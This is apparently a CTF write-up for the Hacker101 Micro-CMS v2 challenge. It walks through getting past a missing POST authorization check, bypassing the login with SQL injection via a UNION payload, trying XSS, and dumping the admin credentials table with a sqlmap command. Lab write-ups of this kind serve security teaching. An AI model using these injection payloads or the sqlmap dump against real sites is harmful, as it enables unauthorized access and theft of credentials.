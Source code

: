 ```yaml
---
title: Micro-CMS v2 walkthrough
date: "2022-10-02T09:30:00.284Z"
description: "Writeup for the Hacker101 CTF problem Micro-CMS v2"
---
```


This is a continuation over the previous `Micro-CMS v1` challenge from [Hacker101 CTF](https://ctf.hacker101.com/), so I recommend giving it a shot and [reading the previous walkthrough](/hacker101-ctf/intro) before proceeding with this one.

Alright, the new challenge allows us to see what's new on this app relative to the old one.

```md
# Micro-CMS Changelog

## Version 2

This version fixed the multitude of security flaws and general functionality bugs that plagued v1. Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20. By default, users need to be an admin to add or edit pages now.
```

It seems like the developers have fixed every vulnerability from the previous challenge! I hope not, but let's see what we can do. In the previous challenge we had a hidden page but we don't know if that's still the case, so let's enumerate page IDs again:

```bash
$ seq 50 > range.txt

$ ffuf -w range.txt -u https://<subdomain>.ctf.hacker101.com/page/FUZZ
...

2      [Status: 200, Size: 433, Words: 19, Lines: 16]
1      [Status: 200, Size: 538, Words: 63, Lines: 15]
3      [Status: 403, Size: 234, Words: 27, Lines: 5]
```

We have a page with ID `3` that we have never seen before, but this time trying to access `/page/edit/3` fails since it's behind authentication. A common mistake by developers is only protecting pages that the client can see (`GET` requests), but nothing prevents users from sending other [HTTP methods](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods) to the server.

### Flag 1

So a `GET` to `/page/edit/3` yields a `403`, does `POST` or `PUT` yield the same HTTP response code?

```bash
$ curl -X PUT "https://<subdomain>.ctf.hacker101.com/page/edit/3"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>

$ curl -X POST "https://<subdomain>.ctf.hacker101.com/page/edit/3"
^FLAG^...$FLAG$%
```

 `POST` is not protected and gives us our first flag! It's worth noting that `GET /page/3` still yields a `forbidden`, so there might be something else in that page.
 
 I feel it's time to start playing with the new login feature and see if we can get access to these pages.

### Flag 2

Going to the `/login` path and sending a single quote (`'`) as the username yields the server error that we can see below:

```python
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```

Errors that yield the stacktrace are super valuable since it gives us more ideas of what can be exploited. In this case, we can see that the server is using MariaDB and that the error is related to the SQL syntax. We can also see that the query is being built using string interpolation without any escaping or parameterized queries. This means that we can inject SQL code into the query and get the server to execute it.

Sending the username as `abc' OR 1=1;--` bypasses this username check, but still doesn't allow us to login with the message: `Invalid password`. If the username that we used confuses you I recommend going over [this material](https://portswigger.net/web-security/sql-injection) from PortSwigger Academy.

We could go and use something like [sqlmap](https://github.com/sqlmapproject/sqlmap) to automate the SQL injection exploitation and dump the entire database, but let's see how the SQL query is built and try to bypass it manually:

```sql
SELECT password FROM admins WHERE username=\'%s\'' % request.form['username']
```

What the developers of the application are doing is:

1. Getting an user based on their username
2. Returning the password from that user

So I went to https://onecompiler.com/mysql and created the following database schema to start playing with this query:

```sql
CREATE TABLE admins (username TEXT NOT NULL, password TEXT NOT NULL);
INSERT INTO admins VALUES ('admin', 'hello');
```

Now we are ready to start making queries to this database:

```sql
SELECT password FROM admins WHERE username = 'admin';
```

And of course I get the password back, which is `'hello'`. How can we make this query return any password we want? Let's try to use a `UNION`:

```sql
SELECT password FROM admins WHERE username = 'admin' UNION SELECT 'potato';
```

This yields two results,  `'hello'` on the first line and `'potato'` on the second (try it!). Is this enough? 

It sure is! Sending an username with the contents below and the password with value `potato` allows us to get logged in.

```sql
username=abc' UNION SELECT 'potato';--`
```

We see the following HTML after logging in:

```html
<!doctype html>
<html>
	<head>
		<title>Logged in</title>
	</head>
	<body>
		<h1>Logged In!</h1>
		<a href="home">Go Home</a>
		<script>setTimeout(function() { window.location = 'home'; }, 3000);</script>
		<!-- You got logged in, congrats!  Do you have the real username and password?  If not, might want to do that! -->
	</body>
</html>
```

That comment is slightly concerning, implying that we will still need to login properly to finish the challenge, but let's set this aside for now.

After three seconds we get redirected to the home page and we see one more page called `Private Page` (the page with `ID 3`). By clicking on it we get our second flag!

### Flag 3

Now that we have edit powers I tried to cause an XSS in the `button` within the `# Markdown Test` page, like we did on the previous challenge. To do that you just need to edit that page and add an attribute `onclick="alert(1)"` and save the page. I played a bunch with it thinking that an admin would see that page and we would be able to get their cookie through XSS, but that was a dead end.

Eventually I remembered the HTML comment from `Flag 2`:

```html
<!-- You got logged in, congrats!  Do you have the real username and password?  If not, might want to do that! -->
```

This prompted me to dump the database using `sqlmap` since I have no idea what the existing username actually is. Here's what I did:

```bash
$ sqlmap -u https://<subdomain>.ctf.hacker101.com/login --data "username=abc&password=xyz" -p username --dbms=mysql --dump
```

* `-p` is used to specify which parameter `sqlmap` should test, and we know `username` is the vulnerable one.

We end up being able to read the `admins` table:

```md
Table: admins
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | stefany  | hattie   |
+----+----------+----------+
```

And after logging in with these credentials we get our last flag!

### Conclusion

This was an interesting challenge. The lack of auth for the `POST /page/edit/<ID>` endpoint is realistic and easily missed if you are not using a framework that makes new endpoints secure by default. The SQLi is a common theme in CTFs, but always a fun thing to exploit.

Thanks for reading and I will see you in our next post!
